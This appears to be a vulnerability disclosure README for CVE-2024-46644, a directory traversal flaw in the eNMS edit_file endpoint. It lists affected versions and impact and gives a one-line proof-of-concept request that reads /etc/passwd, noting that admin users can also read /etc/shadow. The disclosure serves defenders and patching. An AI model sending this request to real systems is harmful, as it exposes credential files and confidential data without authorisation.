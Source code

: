 # **CVE-2024-46644**


# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via edit_file
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /edit_file/>[DIR]>[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```POST /edit_file/>[DIR]>[FILE]```

Reading ```/etc/passwd``` file

```
POST /edit_file/>etc>passwd
```

![image](img/edit_file.png)


If the user you are logged in with within the application is an ```admin``` , you have read access with root privileges as you can see from the example below:
<br/><br/>
Reading ```/etc/shadow``` file (depending on the process execution rights)

![image](img/442.png)

# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
